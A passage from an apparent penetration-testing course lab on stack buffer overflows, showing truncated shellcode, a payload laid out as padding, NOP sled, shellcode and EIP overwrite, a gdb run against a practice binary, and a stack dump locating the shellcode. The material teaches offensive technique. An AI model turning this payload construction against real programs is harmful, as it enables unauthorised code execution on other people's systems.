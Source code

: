 ```shell-session
gdxqpardo@htb[/htb]$ cat shellcode

unsigned char buf[] = 
"\xda\xca\xba\xe4\x11\xd4\x5d\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x12\x31\x50\x17\x03\x50\x17\x83\x24\x15\x36\xa8\x95\xcd\x41"
"\xb0\x86\xb2\xfe\x5d\x2a\xbc\xe0\x12\x4c\x73\x62\xc1\xc9\x3b"
<SNIP>
```

Now that we have our shellcode, we adjust it to have only one string, and then we can adapt and submit our simple exploit again.

#### Notes

  Notes

```shell-session
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
     NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4'
```

#### Exploit with Shellcode

  Exploit with Shellcode

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

Breakpoint 1, 0x56555551 in bowfunc ()
```

Next, we check if the first bytes of our shellcode match the bytes after the NOPS.

#### The Stack

  The Stack

```shell-session
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |----> Shellcode begins
<SNIP>
```

